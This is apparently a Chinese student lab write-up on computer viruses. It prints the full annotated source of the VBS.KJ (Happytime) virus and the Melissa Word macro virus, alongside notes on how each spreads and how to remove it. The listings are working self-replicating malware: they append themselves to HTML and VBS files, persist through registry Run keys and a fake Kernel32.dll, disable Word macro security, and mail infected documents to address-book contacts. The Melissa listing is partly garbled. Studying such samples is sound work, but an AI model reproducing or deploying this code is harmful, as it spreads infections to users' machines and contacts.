

# 0x00 序


最近新型冠状病毒肆虐全球，然后我发现林老师的课紧随时事，上次刚了解完熔断，这次便来了病毒

所谓计算机病毒，无非也就是一段程序，只不过这个程序是用来进行传播感染破坏而已，借用wiki中的定义，电脑病毒具有的不良特征有传播性、隐蔽性、感染性、潜伏性、可激发性、表现性或破坏性，通常表现两种以上所述的特征就可以认定该程序是病毒。

计算机病毒的生命周期为开发期→传染期→潜伏期→发作期→发现期→消化期→消亡期


> 资料：
>
> [计算机病毒-wiki](https://zh.wikipedia.org/wiki/%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%97%85%E6%AF%92)
>
> 
>
> 


#### 计算机病毒的分类


* 木马病毒：比如rootkit，特洛伊木马
* 二进制病毒（即wiki中的有害软件）：比如蠕虫病毒，冲击波病毒，震荡波病毒
* 脚本病毒：比如宏病毒


# 病毒分析

然后应实验要求我们来做些病毒分析


## 脚本病毒


所谓脚本病毒，就是用脚本语言设计的计算机病毒，流行的脚本语言比如javascript以及vbscript


#### vbs

> [vbs基本语法](https://www.cnblogs.com/aland-1415/p/7147264.html)
>
> [vbScript_function](https://www.runoob.com/vbscript/vbscript-ref-functions.html)

`msgbox "strings"`：弹出对话框

在IE11之后，不支持htm内嵌`vbscript`


### happytime病毒


> [Github-amg1127 / virus_VBS-Haptime](https://github.com/amg1127/virus_VBS-Haptime/blob/master/haptime.vbs)
>
> [浅析欢乐时光（HAPPY TIME）病毒](https://blog.csdn.net/tchaikov/article/details/4498)

之前是把病毒内嵌进入html中，当加载html时执行了`vbscript`脚本，类似于现在html自动执行`javascript`脚本

大概病毒文件长下面这个样，由于密文过长就不粘贴了，然后通过execute执行解密函数

加密的算法是先生成四个算子，每个字符减去对应的算子，解密时再按顺序加回来

```html
script language=vbscript>
document.write "<div style='position:absolute; left:0px; top:0px; width:0px; height:0px; z-index:28; visibility: hidden'><"&"APPLET NAME=KJ"&"_guest HEIGHT=0 WIDTH=0 code=com.ms."&"activeX.Active"&"XComponent></APPLET></div>"
</script>
<script language=vbscript>
ExeString = "Encrypto Strings"
Execute("Dim KeyArr(3),ThisText"&vbCrLf&"KeyArr(0) = 1"&vbCrLf&"KeyArr(1) = 3"&vbCrLf&"KeyArr(2) = 4"&vbCrLf&"KeyArr(3) = 8"&vbCrLf&"For i=1 To Len(ExeString)"&vbCrLf&"TempNum = Asc(Mid(ExeString,i,1))"&vbCrLf&"If TempNum = 18 Then"&vbCrLf&"TempNum = 34"&vbCrLf&"End If"&vbCrLf&"TempChar = Chr(TempNum + KeyArr(i Mod 4))"&vbCrLf&"If TempChar = Chr(28) Then"&vbCrLf&"TempChar = vbCr"&vbCrLf&"ElseIf TempChar = Chr(29) Then"&vbCrLf&"TempChar = vbLf"&vbCrLf&"End If"&vbCrLf&"ThisText = ThisText & TempChar"&vbCrLf&"Next")
'Execute(ThisText)
msgbox(ThisText)
</script>
```

如下图，插入`msgbox`可以查看代码

发现老师给的源码和网上的略有不同




以下是来自DanceFire对病毒源码的分析

> vbs常识：
>
> * `Sub func()`：是对无返回值函数的声明
> * `function func()`：是对有返回值函数的声明
> * `'`：以`'`打头是在vbs的单行注释语句
> * `Exit`：后接`for`、`do`、`function`、`Sub`：指循环或函数的退出，相当于我们C中的循环的break和函数的return
> * `On Error Resume Next `：是vbs的错误处理语句，对错误进行提醒，然后继续运行程序
> * `Set objectvar = {objectexpression | New classname | Nothing}`：Set语句就是vbs中给变量赋值的语句
> * `[Call] name [argumentlist]`： Call语句，正如汇编中的call，用于函数的调用，argumentlist为传入函数的参数

```vbscript

#避免执行之


' ccor ccor@263.net
' 　发表于 2002-12-1 8:55:25 
'   VBS.KJ[新欢乐时光病毒]源代码分析 
' Virus: VBS.KJ 
' Analyze by DanceFire ( DanceFire@263.net ) 
' 2002/7/10 
' 


Dim InWhere,HtmlText,VbsText,DegreeSign,AppleObject,FSO,WsShell,WinPath,SubE,FinalyDisk 

Sub KJ_start() 
	' 初始化变量 
	KJSetDim() 
	' 初始化环境 
	KJCreateMilieu() 
	' 感染本地或者共享上与html所在目录 
	KJLikeIt() 
	' 通过vbs感染Outlook邮件模板 
	KJCreateMail() 
	' 进行病毒传播 
	KJPropagate() 
End Sub 


' 函数：KJAppendTo(FilePath,TypeStr) 
' 功能：向指定类型的指定文件追加病毒 
' 参数： 
' FilePath 指定文件路径 
' TypeStr 指定类型 
Function KJAppendTo(FilePath,TypeStr) 
On Error Resume Next 
' 以只读方式打开指定文件 
Set ReadTemp = FSO.OpenTextFile(FilePath,1) 
' 将文件内容读入到TmpStr变量中 
TmpStr = ReadTemp.ReadAll 
' 判断文件中是否存在"KJ_start()"字符串，若存在说明已经感染，退出函数； 
' 若文件长度小于1，也退出函数。 
If Instr(TmpStr,"KJ_start()") <> 0 Or Len(TmpStr) < 1 Then 
ReadTemp.Close 
Exit Function 
End If 
' 如果传过来的类型是"htt" 
' 在文件头加上调用页面的时候加载KJ_start()函数; 
' 在文件尾追加html版本的加密病毒体。 
' 如果是"html" 
' 在文件尾追加调用页面的时候加载KJ_start()函数和html版本的病毒体; 
' 如果是"vbs" 
' 在文件尾追加vbs版本的病毒体 
If TypeStr = "htt" Then 
ReadTemp.Close 
Set FileTemp = FSO.OpenTextFile(FilePath,2) 
FileTemp.Write "<" & "BODY onload=""" & "vbscript:" & "KJ_start()""" & ">" & vbCrLf & TmpStr & vbCrLf & HtmlText 
FileTemp.Close 
Set FAttrib = FSO.GetFile(FilePath) 
FAttrib.attributes = 34 
Else 
ReadTemp.Close 
Set FileTemp = FSO.OpenTextFile(FilePath,8) 
If TypeStr = "html" Then 
FileTemp.Write vbCrLf & "<" & "HTML>" & vbCrLf & "<" & "BODY onload=""" & "vbscript:" & "KJ_start()""" & ">" & vbCrLf & HtmlText 
ElseIf TypeStr = "vbs" Then 
FileTemp.Write vbCrLf & VbsText 
End If 
FileTemp.Close 
End If 
End Function 


' 函数：KJChangeSub(CurrentString,LastIndexChar) 
' 功能：改变子目录以及盘符 
' 参数： 
' CurrentString 当前目录 
' LastIndexChar 上一级目录在当前路径中的位置 
Function KJChangeSub(CurrentString,LastIndexChar) 
' 判断是否是根目录 
If LastIndexChar = 0 Then 
' 如果是根目录 
' 如果是C:\，返回FinalyDisk盘，并将SubE置为0， 
' 如果不是C:\，返回将当前盘符递减1，并将SubE置为0 
If Left(LCase(CurrentString),1) =< LCase("c") Then 
KJChangeSub = FinalyDisk & ":\" 
SubE = 0 
Else 
KJChangeSub = Chr(Asc(Left(LCase(CurrentString),1)) - 1) & ":\" 
SubE = 0 
End If 
Else 
' 如果不是根目录，则返回上一级目录名称 
KJChangeSub = Mid(CurrentString,1,LastIndexChar) 
End If 
End Function 


' 函数：KJCreateMail() 
' 功能：感染邮件部分 
Function KJCreateMail() 
On Error Resume Next 
' 如果当前执行文件是"html"的，就退出函数 
If InWhere = "html" Then 
Exit Function 
End If 
' 取系统盘的空白页的路径 
ShareFile = Left(WinPath,3) & "Program Files\Common Files\Microsoft Shared\Stationery\blank.htm" 
' 如果存在这个文件，就向其追加html的病毒体 
' 否则生成含有病毒体的这个文件 
If (FSO.FileExists(ShareFile)) Then 
Call KJAppendTo(ShareFile,"html") 
Else 
Set FileTemp = FSO.OpenTextFile(ShareFile,2,true) 
FileTemp.Write "<" & "HTML>" & vbCrLf & "<" & "BODY onload=""" & "vbscript:" & "KJ_start()""" & ">" & vbCrLf & HtmlText 
FileTemp.Close 
End If 
' 取得当前用户的ID和OutLook的版本 
DefaultId = WsShell.RegRead("HKEY_CURRENT_USER\Identities\Default User ID") 
OutLookVersion = WsShell.RegRead("HKEY_LOCAL_MACHINE\Software\Microsoft\Outlook Express\MediaVer") 
' 激活信纸功能，并感染所有信纸 
WsShell.RegWrite "HKEY_CURRENT_USER\Identities\"&DefaultId&"\Software\Microsoft\Outlook Express\"& Left(OutLookVersion,1) &".0\Mail\Compose Use Stationery",1,"REG_DWORD" 
Call KJMailReg("HKEY_CURRENT_USER\Identities\"&DefaultId&"\Software\Microsoft\Outlook Express\"& Left(OutLookVersion,1) &".0\Mail\Stationery Name",ShareFile) 
Call KJMailReg("HKEY_CURRENT_USER\Identities\"&DefaultId&"\Software\Microsoft\Outlook Express\"& Left(OutLookVersion,1) &".0\Mail\Wide Stationery Name",ShareFile) 
WsShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Outlook\Options\Mail\EditorPreference",131072,"REG_DWORD" 
Call KJMailReg("HKEY_CURRENT_USER\Software\Microsoft\Windows Messaging Subsystem\Profiles\Microsoft Outlook Internet Settings\0a0d020000000000c000000000000046\001e0360","blank") 
Call KJMailReg("HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows Messaging Subsystem\Profiles\Microsoft Outlook Internet Settings\0a0d020000000000c000000000000046\001e0360","blank") 
WsShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\10.0\Outlook\Options\Mail\EditorPreference",131072,"REG_DWORD" 
Call KJMailReg("HKEY_CURRENT_USER\Software\Microsoft\Office\10.0\Common\MailSettings\NewStationery","blank") 
KJummageFolder(Left(WinPath,3) & "Program Files\Common Files\Microsoft Shared\Stationery") 
End Function 


' 函数:KJCreateMilieu() 
' 功能：创建系统环境 
Function KJCreateMilieu() 
On Error Resume Next 
TempPath = "" 
' 判断操作系统是NT/2000还是9X 
If Not(FSO.FileExists(WinPath & "WScript.exe")) Then 
TempPath = "system32\" 
End If 
' 为了文件名起到迷惑性，并且不会与系统文件冲突。 
' 如果是NT/2000则启动文件为system\Kernel32.dll 
' 如果是9x启动文件则为system\Kernel.dll 
If TempPath = "system32\" Then 
StartUpFile = WinPath & "SYSTEM\Kernel32.dll" 
Else 
StartUpFile = WinPath & "SYSTEM\Kernel.dll" 
End If 
' 添加Run值，添加刚才生成的启动文件路径 
WsShell.RegWrite "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\Kernel32",StartUpFile 
' 拷贝前期备份的文件到原来的目录 
FSO.CopyFile WinPath & "web\kjwall.gif",WinPath & "web\Folder.htt" 
FSO.CopyFile WinPath & "system32\kjwall.gif",WinPath & "system32\desktop.ini" 
' 向%windir%\web\Folder.htt追加病毒体 
Call KJAppendTo(WinPath & "web\Folder.htt","htt") 
' 改变dll的MIME头 
' 改变dll的默认图标 
' 改变dll的打开方式 
WsShell.RegWrite "HKEY_CLASSES_ROOT\.dll\","dllfile" 
WsShell.RegWrite "HKEY_CLASSES_ROOT\.dll\Content Type","application/x-msdownload" 
WsShell.RegWrite "HKEY_CLASSES_ROOT\dllfile\DefaultIcon\",WsShell.RegRead("HKEY_CLASSES_ROOT\vxdfile\DefaultIcon\") 
WsShell.RegWrite "HKEY_CLASSES_ROOT\dllfile\ScriptEngine\","VBScript" 
WsShell.RegWrite "HKEY_CLASSES_ROOT\dllFile\Shell\Open\Command\",WinPath & TempPath & "WScript.exe ""%1"" %*" 
WsShell.RegWrite "HKEY_CLASSES_ROOT\dllFile\ShellEx\PropertySheetHandlers\WSHProps\","{60254CA5-953B-11CF-8C96-00AA00B8708C}" 
WsShell.RegWrite "HKEY_CLASSES_ROOT\dllFile\ScriptHostEncode\","{85131631-480C-11D2-B1F9-00C04F86C324}" 
' 启动时加载的病毒文件中写入病毒体 
Set FileTemp = FSO.OpenTextFile(StartUpFile,2,true) 
FileTemp.Write VbsText 
FileTemp.Close 
End Function 

' 函数：KJLikeIt() 
' 功能：针对html文件进行处理，如果访问的是本地的或者共享上的文件，将感染这个目录 
Function KJLikeIt() 
' 如果当前执行文件不是"html"的就退出程序 
If InWhere <> "html" Then 
Exit Function 
End If 
' 取得文档当前路径 
ThisLocation = document.location 
' 如果是本地或网上共享文件 
If Left(ThisLocation, 4) = "file" Then 
ThisLocation = Mid(ThisLocation,9) 
' 如果这个文件扩展名不为空，在ThisLocation中保存它的路径 
If FSO.GetExtensionName(ThisLocation) <> "" then 
ThisLocation = Left(ThisLocation,Len(ThisLocation) - Len(FSO.GetFileName(ThisLocation))) 
End If 
' 如果ThisLocation的长度大于3就尾追一个"\" 
If Len(ThisLocation) > 3 Then 
ThisLocation = ThisLocation & "\" 
End If 
' 感染这个目录 
KJummageFolder(ThisLocation) 
End If 
End Function 

' 函数：KJMailReg(RegStr,FileName) 
' 功能：如果注册表指定键值不存在，则向指定位置写入指定文件名 
' 参数： 
' RegStr 注册表指定键值 
' FileName 指定文件名 
Function KJMailReg(RegStr,FileName) 
On Error Resume Next 
' 如果注册表指定键值不存在，则向指定位置写入指定文件名 
RegTempStr = WsShell.RegRead(RegStr) 
If RegTempStr = "" Then 
WsShell.RegWrite RegStr,FileName 
End If 
End Function 

' 函数：KJOboSub(CurrentString) 
' 功能：遍历并返回目录路径 
' 参数： 
' CurrentString 当前目录 
Function KJOboSub(CurrentString) 
SubE = 0 
TestOut = 0 
Do While True 
TestOut = TestOut + 1 
If TestOut > 28 Then 
CurrentString = FinalyDisk & ":\" 
Exit Do 
End If 
On Error Resume Next 
' 取得当前目录的所有子目录，并且放到字典中 
Set ThisFolder = FSO.GetFolder(CurrentString) 
Set DicSub = CreateObject("Scripting.Dictionary") 
Set Folders = ThisFolder.SubFolders 
FolderCount = 0 
For Each TempFolder in Folders 
FolderCount = FolderCount + 1 
DicSub.add FolderCount, TempFolder.Name 
Next 
' 如果没有子目录了，就调用KJChangeSub返回上一级目录或者更换盘符，并将SubE置1 
If DicSub.Count = 0 Then 
LastIndexChar = InstrRev(CurrentString,"\",Len(CurrentString)-1) 
SubString = Mid(CurrentString,LastIndexChar+1,Len(CurrentString)-LastIndexChar-1) 
CurrentString = KJChangeSub(CurrentString,LastIndexChar) 
SubE = 1 
Else 
' 如果存在子目录 
' 如果SubE为0，则将CurrentString变为它的第1个子目录 
If SubE = 0 Then 
CurrentString = CurrentString & DicSub.Item(1) & "\" 
Exit Do 
Else 
' 如果SubE为1，继续遍历子目录，并将下一个子目录返回 
j = 0 
For j = 1 To FolderCount 
If LCase(SubString) = LCase(DicSub.Item(j)) Then 
If j < FolderCount Then 
CurrentString = CurrentString & DicSub.Item(j+1) & "\" 
Exit Do 
End If 
End If 
Next 
LastIndexChar = InstrRev(CurrentString,"\",Len(CurrentString)-1) 
SubString = Mid(CurrentString,LastIndexChar+1,Len(CurrentString)-LastIndexChar-1) 
CurrentString = KJChangeSub(CurrentString,LastIndexChar) 
End If 
End If 
Loop 
KJOboSub = CurrentString 
End Function 


' 函数：KJPropagate() 
' 功能：病毒传播 
Function KJPropagate() 
On Error Resume Next 
RegPathvalue = "HKEY_LOCAL_MACHINE\Software\Microsoft\Outlook Express\Degree" 
DiskDegree = WsShell.RegRead(RegPathvalue) 
' 如果不存在Degree这个键值，DiskDegree则为FinalyDisk盘 
If DiskDegree = "" Then 
DiskDegree = FinalyDisk & ":\" 
End If 
' 继DiskDegree置后感染5个目录 
For i=1 to 5 
DiskDegree = KJOboSub(DiskDegree) 
KJummageFolder(DiskDegree) 
Next 
' 将感染记录保存在"HKEY_LOCAL_MACHINE\Software\Microsoft\Outlook Express\Degree"键值中 
WsShell.RegWrite RegPathvalue,DiskDegree 
End Function 


' 函数：KJummageFolder(PathName) 
' 功能：感染指定目录 
' 参数： 
' PathName 指定目录 
Function KJummageFolder(PathName) 
On Error Resume Next 
' 取得目录中的所有文件集 
Set FolderName = FSO.GetFolder(PathName) 
Set ThisFiles = FolderName.Files 
HttExists = 0 
For Each ThisFile In ThisFiles 
FileExt = UCase(FSO.GetExtensionName(ThisFile.Path)) 
' 判断扩展名 
' 若是HTM,HTML,ASP,PHP,JSP则向文件中追加HTML版的病毒体 
' 若是VBS则向文件中追加VBS版的病毒体 
' 若是HTT,则标志为已经存在HTT了 
If FileExt = "HTM" Or FileExt = "HTML" Or FileExt = "ASP" Or FileExt = "PHP" Or FileExt = "JSP" Then 
Call KJAppendTo(ThisFile.Path,"html") 
ElseIf FileExt = "VBS" Then 
Call KJAppendTo(ThisFile.Path,"vbs") 
ElseIf FileExt = "HTT" Then 
HttExists = 1 
End If 
Next 
' 如果所给的路径是桌面，则标志为已经存在HTT了 
If (UCase(PathName) = UCase(WinPath & "Desktop\")) Or (UCase(PathName) = UCase(WinPath & "Desktop"))Then 
HttExists = 1 
End If 
' 如果不存在HTT 
' 向目录中追加病毒体 
If HttExists = 0 Then 
FSO.CopyFile WinPath & "system32\desktop.ini",PathName 
FSO.CopyFile WinPath & "web\Folder.htt",PathName 
End If 
End Function 


' 函数KJSetDim() 
' 定义FSO,WsShell对象 
' 取得最后一个可用磁盘卷标 
' 生成传染用的加密字串 
' 备份系统中的web\folder.htt和system32\desktop.ini 
Function KJSetDim() 
On Error Resume Next 
Err.Clear 
' 测试当前执行文件是html还是vbs 
TestIt = WScript.ScriptFullname 
If Err Then 
InWhere = "html" 
Else 
InWhere = "vbs" 
End If 

' 创建文件访问对象和Shell对象 
If InWhere = "vbs" Then 
Set FSO = CreateObject("Scripting.FileSystemObject") 
Set WsShell = CreateObject("WScript.Shell") 
Else 
Set AppleObject = document.applets("KJ_guest") 
AppleObject.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}") 
AppleObject.createInstance() 
Set WsShell = AppleObject.GetObject() 
AppleObject.setCLSID("{0D43FE01-F093-11CF-8940-00A0C9054228}") 
AppleObject.createInstance() 
Set FSO = AppleObject.GetObject() 
End If 
Set DiskObject = FSO.Drives 
' 判断磁盘类型 
' 
' 0: Unknown 
' 1: Removable 
' 2: Fixed 
' 3: Network 
' 4: CD-ROM 
' 5: RAM Disk 
' 如果不是可移动磁盘或者固定磁盘就跳出循环。可能作者考虑的是网络磁盘、CD-ROM、RAM Disk都是在比较靠后的位置。呵呵，如果C:是RAMDISK会怎么样？ 
For Each DiskTemp In DiskObject 
If DiskTemp.DriveType <> 2 And DiskTemp.DriveType <> 1 Then 
Exit For 
End If 
FinalyDisk = DiskTemp.DriveLetter 
Next 

' 此前的这段病毒体已经解密，并且存放在ThisText中，现在为了传播，需要对它进行再加密。 
' 加密算法 
Dim OtherArr(3) 
Randomize 
' 随机生成4个算子 
For i=0 To 3 
OtherArr(i) = Int((9 * Rnd)) 
Next 
TempString = "" 
For i=1 To Len(ThisText) 
TempNum = Asc(Mid(ThisText,i,1)) 
'对回车、换行(0x0D,0x0A)做特别的处理 
If TempNum = 13 Then 
TempNum = 28 
ElseIf TempNum = 10 Then 
TempNum = 29 
End If 
'很简单的加密处理，每个字符减去相应的算子，那么在解密的时候只要按照这个顺序每个字符加上相应的算子就可以了。 
TempChar = Chr(TempNum - OtherArr(i Mod 4)) 
If TempChar = Chr(34) Then 
TempChar = Chr(18) 
End If 
TempString = TempString & TempChar 
Next 
' 含有解密算法的字串 
UnLockStr = "Execute(""Dim KeyArr(3),ThisText""&vbCrLf&""KeyArr(0) = " & OtherArr(0) & """&vbCrLf&""KeyArr(1) = " & OtherArr(1) & """&vbCrLf&""KeyArr(2) = " & OtherArr(2) & """&vbCrLf&""KeyArr(3) = " & OtherArr(3) & """&vbCrLf&""For i=1 To Len(ExeString)""&vbCrLf&""TempNum = Asc(Mid(ExeString,i,1))""&vbCrLf&""If TempNum = 18 Then""&vbCrLf&""TempNum = 34""&vbCrLf&""End If""&vbCrLf&""TempChar = Chr(TempNum + KeyArr(i Mod 4))""&vbCrLf&""If TempChar = Chr(28) Then""&vbCrLf&""TempChar = vbCr""&vbCrLf&""ElseIf TempChar = Chr(29) Then""&vbCrLf&""TempChar = vbLf""&vbCrLf&""End If""&vbCrLf&""ThisText = ThisText & TempChar""&vbCrLf&""Next"")" & vbCrLf & "Execute(ThisText)" 
' 将加密好的病毒体复制给变量 ThisText 
ThisText = "ExeString = """ & TempString & """" 
' 生成html感染用的脚本 
HtmlText ="<" & "script language=vbscript>" & vbCrLf & "document.write " & """" & "<" & "div style='position:absolute; left:0px; top:0px; width:0px; height:0px; z-index:28; visibility: hidden'>" & "<""&""" & "APPLET NAME=KJ""&""_guest HEIGHT=0 WIDTH=0 code=com.ms.""&""activeX.Active""&""XComponent>" & "<" & "/APPLET>" & "<" & "/div>""" & vbCrLf & "<" & "/script>" & vbCrLf & "<" & "script language=vbscript>" & vbCrLf & ThisText & vbCrLf & UnLockStr & vbCrLf & "<" & "/script>" & vbCrLf & "<" & "/BODY>" & vbCrLf & "<" & "/HTML>" 
' 生成vbs感染用的脚本 
VbsText = ThisText & vbCrLf & UnLockStr & vbCrLf & "KJ_start()" 
' 取得Windows目录 
' GetSpecialFolder(n) 
' 0: WindowsFolder 
' 1: SystemFolder 
' 2: TemporaryFolder 
' 如果系统目录存在web\Folder.htt和system32\desktop.ini，则用kjwall.gif文件名备份它们。 
WinPath = FSO.GetSpecialFolder(0) & "\" 
If (FSO.FileExists(WinPath & "web\Folder.htt")) Then 
FSO.CopyFile WinPath & "web\Folder.htt",WinPath & "web\kjwall.gif" 
End If 
If (FSO.FileExists(WinPath & "system32\desktop.ini")) Then 
FSO.CopyFile WinPath & "system32\desktop.ini",WinPath & "system32\kjwall.gif" 
End If 
End Function 
----------------------- 
```


这个病毒是用VBS编写的多变形、加密病毒，感染扩展名为`.html`, `.htm`, `.asp`, `.php`, `.jsp`,` .htt`和`.vbs`文件，同时该病毒会大量生成`folder.htt`和`desktop.ini`，并在`%windir%\System\`中生成一个名字叫`Kernel.dll`的文件（Windows 9x/Me）或`Kernel32.dll`（Windows NT/2000），修改.dll文件的打开方式，感染`Outlook`的信纸文件。
（注：`%windir%`指的是Windows的目录， 对于Win9x/Me系统来说，这个目录通常是\Windows，对于Windows NT/2000来说，这个目录通常是\WinNT；特别注意：这两个Kernel文件生成的路径都是%windir%\System\，而不是%windir%\System32\）
感染这个病毒后有两个明显的表现：

* 在每个目录中都会生成`folder.htt`（带毒文件）和`desktop.ini`（目录配置文件）；

* 电脑运行速度明显变慢，在任务列表中可以看到有大量的`Wscript.exe`程序在运行。
  


### 梅利莎病毒


> [梅丽莎病毒-百度百科](https://baike.baidu.com/item/%E6%A2%85%E4%B8%BD%E8%8E%8E%E7%97%85%E6%AF%92)
>
> [梅丽莎病毒-wiki](https://zh.wikipedia.org/wiki/%E6%A2%85%E4%B8%BD%E8%8E%8E%E7%97%85%E6%AF%92)
>
> [Melissa分析](http://halfnet.tripod.com/virus.htm)
>
> [Melissa病毒分析-ppt](https://www.yumpu.com/en/document/read/17258254/dr-xiao-dong-zhu-3-)
>
> [melissa.macro.virus.txt](https://packetstormsecurity.com/files/download/12131/melissa.macro.virus.txt)
>
> 


梅丽莎病毒属于word宏病毒，主要通过电脑邮件传播，主要利用了人类的好奇心——这是给你的资料，不要让任何人看见，更有意思的是，这个病毒的名字来源于作者在佛罗里达州遇到过的一个脱衣女郎的名字XD

梅丽莎病毒一般通过邮件传播，邮件的标题通常为“这是给你的资料，不要让任何人看见”。一旦收件人打开病毒邮件，病毒就会自动向用户通讯录的前50位好友复制发送同样的邮件。

> 手工清除办法：
>
> * 删除所有的`normal.dot`文件，注意隐藏文件和系统文件中的搜索
> * 打开注册表管理器，搜索所有名称为`Melissa`的项，全部删除
> * 删除所有染毒的word
>
> 


Word宏，本质上是一个批量处理程序命令，微软用其提高工作效率

宏其实就是一段vbscript代码，当word运行时自动运行宏代码，经过实验，word宏在删除带有宏的word文件之后或者禁用宏功能之后，仍然可以在新建word时自动运行宏，更别说是一个病毒宏的传播了，其自动运行，难以删除的特性，使得Melissa病毒有着重大影响力

> 现在的word可以在：`审阅 ➡ 宏`中创建新的宏
>
> 在`文件 ➡ 信任中心 ➡ 信任中心设置 ➡ 宏设置 `中可以打开是否启用宏


病毒源码如下：

```vbscript

'Part1
'
Private Sub Document_Open()
  On Error Resume Next
    '读取Windows Registry，即注册表
    '如果是word2000就把Security设置为最低
    '若不是则把word的转化确认、病毒保护、模板存储确认设置成off
    '然后把菜单项Tools->Macro Disable ,这样达到隐藏代码的效果
  If System.PrivateProfileString("",
       "HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security",
       "Level") <> "" Then
    CommandBars("Macro").Controls("Security...").Enabled = False
    System.PrivateProfileString("",
       "HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security",
       "Level") = 1&
  Else
    CommandBars("Tools").Controls("Macro").Enabled = False
    Options.ConfirmConversions = (1 - 1): Options.VirusProtection = (1 - 1):
    Options.SaveNormalPrompt = (1 - 1)
  End If


'Part2
    'Melissa病毒Payload主体
    '先判断是否已经感染
    '感染的标记在注册表里
    '若无感染则写一个主题为Important Message From $name Here is that document you asked for ... don't show anyone else ;-)的邮件，以及附有病毒word(即本文件)发送到地址簿上的前50个人
    '然后再注册表中标记已感染
Dim UngaDasOutlook, DasMapiName, BreakUmOffASlice
Set UngaDasOutlook = CreateObject("Outlook.Application")
Set DasMapiName = UngaDasOutlook.GetNameSpace("MAPI")
If System.PrivateProfileString("",
    "HKEY_CURRENT_USER\Software\Microsoft\Office\", "Melissa?") <>
    "... by Kwyjibo" Then
  If UngaDasOutlook = "Inlook" Then
    DasMapName.Logon "profile", "password"
    For y = 1 To DasMapName.AddressLists.Count
        Set AddyBook = DasMapiName.AddressLists(y)
        Set BreakOffASlice = UngaDasOutlook.CreateItem(0)
        For oo = 1 To AddyBook.AddressEntries.Count
            Peep = AddyBook.AddressEntries(x)
            BreakOffASlice.Recipients.Add Peep
            x++
            If x < 50 Then oo = AddyBook.AddressEntries.Count
         Next oo
         BreakOffASlice.Subject = "Important Message From " &
              Application.UserName
         BreakUmOffASlice.Body =
            "Here is that document you asked for ... don't show anyone else ;-)"

*** Here is the classic subject line "Important Message From" This could
change of course in future versions ***

         BreakUmOffASlice.Attachments.Add ActiveDocument.FullName
         BreakUmOffASlice.Send
         Peep = ""
    Next y
  DasMapName.Logoff
  End If
  System.PrivateProfileString("",
      "HKEY_CURRENT_USER\Software\Microsoft\Office\", "Melissa?") =
       "... by Kwyjibo"
End If
'Part3
        '病毒自我复制部分
        '根据情况对Active Document或Normal Template进行感染
        '
Set ADI1 = ActiveDocument.VBProject.VBComponents.Item(1)
Set NTI1 = NormalTemplate.VBProject.VBComponents.Item(1)
NTCL = NTI1.CodeModule.CountOfLines
ADCL = ADI1.CodeModule.CountOfLines
BGN = 2
If ADI1.Name <> "Melissa" Then
  If ADCL > 0 Then _
    ADI1.CodeModule.DeleteLines 1, ADCL
    Set ToInfect = ADI1
    ADI1.Name = "Melissa"
    DoAD = True
  End If
  If NTI1.Name <> "Melissa" Then
    If NTCL > 0 Then _
      NTI1.CodeModule.DeleteLines 1, NTCL
      Set ToInfect = NTI1
      NTI1.Name = "Melissa"
      DoNT = True
    End If
    If DoNT <> True And DoAD <> True Then GoTo END
      If DoNT = True Then
        Do While ADI1.CodeModule.Lines(1, 1) = ""
          ADI1.CodeModule.DeleteLines 1
        Loop
        ToInfect.CodeModule.AddFromString ("Private Sub Document_Close()")
        Do While ADI1.CodeModule.Lines(BGN, 1) <> ""
          ToInfect.CodeModule.InsertLines BGN, ADI1.CodeModule.Lines(BGN, 1)
          BGN = BGN + 1
        Loop
      End If
      If DoAD = True Then
        Do While NTI1.CodeModule.Lines(1, 1) = ""
          NTI1.CodeModule.DeleteLines 1
        Loop
        ToInfect.CodeModule.AddFromString ("Private Sub Document_Open()")
        Do While NTI1.CodeModule.Lines(BGN, 1) <> ""
          ToInfect.CodeModule.InsertLines BGN, NTI1.CodeModule.Lines(END, 1)
            BGN = BGN + 1
        Loop
      End If
CYA:
      If NTCL <> 0 And ADCL = 0 And
          (InStr(1, ActiveDocument.Name, "Document") = False) Then
        ActiveDocument.SaveAs FileName:=ActiveDocument.FullName
      ElseIf (InStr(1, ActiveDocument.Name, "Document") <> False) Then
        ActiveDocument.Saved = True
      End If    
'Part4
'假如午时已到，告诉感染者你已经被感染23333333333
'
'WORD/Melissa written by Kwyjibo
'Works in both Word 2000 and Word 97
'Worm? Macro Virus? Word 97 Virus? Word 2000 Virus? You Decide!
'Word -> Email | Word 97 <--> Word 2000 ... it's a new age!

If Day(Now) = Minute(Now) Then Selection.TypeText " Twenty-two points,
    plus triple-word-score, plus fifty points for using all my letters.
    Game's over.  I'm outta here."

End Sub
```


### 写一个bash病毒


